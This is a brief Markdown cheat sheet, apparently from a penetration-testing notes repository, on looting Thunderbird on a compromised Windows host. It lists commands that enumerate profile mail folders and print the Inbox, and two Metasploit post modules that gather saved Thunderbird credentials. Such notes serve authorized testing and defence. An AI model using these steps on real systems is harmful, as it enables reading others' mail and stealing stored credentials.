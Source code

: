 # Thunderbird

## 01 - Manual

### 1.1 - Enumerate the directory

Note: `<fqdn>` stands for **Fully Qualified Domain Name**.

```
C:\> dir C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\

dir %appdata%\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\

dir %userprofile%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\
```

### 1.2 - Read the Inbox

```
C:\> type C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\Inbox

type %appdata%\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\Inbox

type %userprofile%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\Inbox
```

## 02 - Metasploit

```
meterpreter > run post/multi/gather/thunderbird_creds

meterpreter > run post/windows/gather/credentials/thunderbird
```